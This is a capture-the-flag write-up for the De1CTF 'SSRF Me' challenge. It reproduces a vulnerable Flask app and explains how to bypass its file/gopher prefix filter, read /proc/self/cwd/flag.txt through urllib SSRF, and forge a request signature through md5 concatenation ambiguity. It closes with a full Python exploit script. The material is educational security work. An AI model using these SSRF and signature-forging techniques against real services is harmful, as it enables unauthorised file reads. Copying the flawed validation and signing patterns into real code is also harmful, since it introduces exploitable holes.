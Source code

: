 # SSRF Me - Writeup 
##### By *sh4d0w58*

### Description:

>SSRF ME TO GET FLAG. [http://139.180.128.86/](http://139.180.128.86/)

### Solution:

On visiting [http://139.180.128.86/](http://139.180.128.86/) we are given the source code of the Flask App that we are interfacing with:

```
#! /usr/bin/env python 
#encoding=utf-8 
from flask import Flask 
from flask import request 
import socket 
import hashlib 
import urllib 
import sys 
import os 
import json 

reload(sys) 
sys.setdefaultencoding('latin1') 
app = Flask(__name__) 
secert_key = os.urandom(16) 

class Task: 
	def __init__(self, action, param, sign, ip): 
		self.action = action 
		self.param = param 
		self.sign = sign 
		self.sandbox = md5(ip) 
		if(not os.path.exists(self.sandbox)): 
			#SandBox For Remote_Addr 
			os.mkdir(self.sandbox) 

	def Exec(self): 
		result = {} 
		result['code'] = 500 
		if (self.checkSign()): 
			if "scan" in self.action: 
				tmpfile = open("./%s/result.txt" % self.sandbox, 'w') 
				resp = scan(self.param) 
				if (resp == "Connection Timeout"): 
					result['data'] = resp 
				else: 
					print resp 
					tmpfile.write(resp) 
					tmpfile.close()
					result['code'] = 200 
			if "read" in self.action: 
				f = open("./%s/result.txt" % self.sandbox, 'r') 
				result['code'] = 200 
				result['data'] = f.read() 
			if result['code'] == 500: 
				result['data'] = "Action Error" 
		else: 
			result['code'] = 500 
			result['msg'] = "Sign Error" 
		return result 

	def checkSign(self): 
		if (getSign(self.action, self.param) == self.sign): 
			return True 
		else: 
			return False 

#generate Sign For Action Scan. 
@app.route("/geneSign", methods=['GET', 'POST']) 
def geneSign(): 
	param = urllib.unquote(request.args.get("param", "")) 
	action = "scan" 
	return getSign(action, param) 

@app.route('/De1ta',methods=['GET','POST']) 
def challenge(): 
	action = urllib.unquote(request.cookies.get("action")) 
	param = urllib.unquote(request.args.get("param", "")) 
	sign = urllib.unquote(request.cookies.get("sign")) 
	ip = request.remote_addr 
	if(waf(param)): 
		return "No Hacker!!!!" 
	task = Task(action, param, sign, ip) 
	return json.dumps(task.Exec()) 

@app.route('/') 
def index(): 
	return open("code.txt","r").read() 

def scan(param): 
	socket.setdefaulttimeout(1) 
	try: 
		return urllib.urlopen(param).read()[:50] 
	except: 
		return "Connection Timeout" 

def getSign(action, param): 
	return hashlib.md5(secert_key + param + action).hexdigest() 

def md5(content): 
	return hashlib.md5(content).hexdigest()

def waf(param): 
	check=param.strip().lower() 
	if check.startswith("gopher") or check.startswith("file"): 
		return True 
	else: 
		return False 

if __name__ == '__main__': 
	app.debug = False 
	app.run(host='0.0.0.0',port=80)
```

Looking over it, we see that visiting `"/De1ta"` will execute the `challenge()` function and construct a new `Task` object with an `action`, `param`, and `sign` that we provide as cookies and a GET parameter. (Also our `ip` is passed to it). Then it will call the `Exec()` method of the object and return the json result.

```
task = Task(action, param, sign, ip) 
return json.dumps(task.Exec()) 
```

Inside `Exec()`, `checkSign()` is called. This function checks whether the `sign` value is the same as the value generated by `getSign()`. We have to pass this check to move on to the rest of `Exec()`.

```
def checkSign(self): 
		if (getSign(self.action, self.param) == self.sign): 
			return True 
		else: 
			return False
```

`getSign()` performs an md5 hash with `secret_key + param + action`. `secret_key` is a random value that is generated by the App, so we don't know it.

```
def getSign(action, param): 
	return hashlib.md5(secert_key + param + action).hexdigest() 
``` 

So now we need a way to generate a valid sign. Making a request to `/geneSign` will generate a `sign` value for us, however it will only allow us to pass it the `param` value and the `action` value will be set to `"scan"`.

```
@app.route("/geneSign", methods=['GET', 'POST']) 
def geneSign(): 
	param = urllib.unquote(request.args.get("param", "")) 
	action = "scan" 
	return getSign(action, param) 
```

Now that we can generate a valid `sign` value, we can pass the check and move on to the rest of `Exec()`. The first `if` case checks if `"scan"` is `in` `action`. Notice, it does not check whether `action == "scan"`, only whether it contains it. This will be important later. The `"scan"` action will make a request with the value of `param` and write it to a file.

```
if "scan" in self.action: 
	tmpfile = open("./%s/result.txt" % self.sandbox, 'w') 
	resp = scan(self.param) 
	if (resp == "Connection Timeout"): 
		result['data'] = resp 
	else: 
		print resp 
		tmpfile.write(resp) 
		tmpfile.close()
		result['code'] = 200 
```

The second `if` case performs the same check with `"read"`. This action will read the file that we just wrote the result of `"scan"` to.

```
if "read" in self.action: 
	f = open("./%s/result.txt" % self.sandbox, 'r') 
	result['code'] = 200 
	result['data'] = f.read() 
```

Going back to the `"scan"` case, we see the function `scan()` is called with our `param`. This function will use `urllib.urlopen()` to perform the request and this is where the SSRF vulnerability is.

```
def scan(param): 
	socket.setdefaulttimeout(1) 
	try: 
		return urllib.urlopen(param).read()[:50] 
	except: 
		return "Connection Timeout" 
```

To read local files we could use the `"file://"` protocol, however any `param` value that starts with `"file"` or `"gopher"` is blocked in the `challenge()` function. I believe there are multiple ways to get past this, but I noticed that starting `param` with a `"/"` would attempt to read files from the root of the file system. The challenge hint says...

>flag is in ./flag.txt

...however we do not know the current working directory (CWD) and therefore where `"."` is. We can use a trick to get past this. `"/proc/self/cwd"` is a symlink to the process' CWD. We can read the flag with `"/proc/self/cwd/flag.txt"`.

This will allow us to read the flag into a file, but we will not be able to read it without a valid sign with the action **including** `"read"`. If we can generate a sign for the `action` as `"readscan"`, we can perform the scan and read the result in one go.

Notice, `geneSign()` will perform an md5 hash of `secret + param + action` so we can pass the value of `param` as `"/proc/self/flag.txtread"` (the value of `action` will be `"scan"`) and generate the *same* hash as if we pass `param` as `"/proc/self/flag.txt"` and `action` as `"readscan"`.

```"/proc/self/flag.txtread"+"scan" == "/proc/self/flag.txt"+"readscan"```

So our exploit is complete.

We get the flag `"de1ctf{27782fcffbb7d00309a93bc49b74ca26}"`

### Full Code:

```
import requests

def geneSign(param):
	return requests.get("http://139.180.128.86/geneSign?param="+param).text

realParam = "/proc/self/cwd/flag.txt"

param = realParam+"read"
sign = geneSign(param)
param = realParam

action = "readscan"

answer = requests.get("http://139.180.128.86/De1ta?param="+param, cookies={"action":action,"sign":sign}).text

print(answer)
```
